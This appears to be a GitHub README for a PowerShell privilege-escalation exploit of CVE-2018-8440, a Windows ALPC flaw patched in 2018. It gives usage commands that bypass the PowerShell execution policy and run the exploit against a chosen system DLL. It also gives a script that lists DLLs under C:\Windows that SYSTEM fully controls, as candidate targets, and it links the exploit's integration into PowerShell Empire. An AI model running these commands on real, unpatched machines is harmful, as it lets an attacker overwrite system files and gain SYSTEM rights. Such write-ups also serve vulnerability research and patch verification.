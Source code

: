 # Usage
```
Set-ExecutionPolicy Bypass Process
.\exploit.ps1 -TargetFile C:\Windows\Some.dll
```
This will exploit the Windows operating system allowing you to modify the file Some.dll.

# Example
```
Set-ExecutionPolicy Bypass Process
.\example.ps1
```
https://youtu.be/rNSpxJd3_BM
# Finding Vulnerable DLL files
```
$aapsid = 'NT AUTHORITY\SYSTEM'

ForEach($file in (Get-ChildItem -File -recurse -Path 'C:\windows' -Filter *.dll -ErrorAction SilentlyContinue)) {
 
   $acl = Get-Acl -path $file.FullName
   ForEach($ace in $acl.Access) {
      If(($ace.FileSystemRights -eq
           [Security.AccessControl.FileSystemRights]::FullControl) -and 
            $ace.IdentityReference.Value -in $aapsid) {
               Write-Output $file.FullName
              
      }
        
   }
   
   }
```
# Further Information
The first PoC was released by [@SandboxEscaper](https://twitter.com/sandboxescaper) on the 27th August 2018, however, is now removed from GitHub.

The exploit.dll and the code for the TriggerXPSPrint.cpp comes from her original PoC. The exploit.dll simply launches notepad.
I tried to replicate the XPS print api into C# but using `System.Printing` or `System.Drawing.Printing` only calls the print job within the current user context, you need to use the API to get the spooler service to initate the print job.

This was patched by Microsoft on the 11th September 2018. The following link has the relevant KB numbers:
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440

I since then have modified this to work with PowerShell Empire, you can read the pull request here:
https://github.com/EmpireProject/Empire/pull/1230

I have only tested this on Windows 10, in theory it should work on other versions.
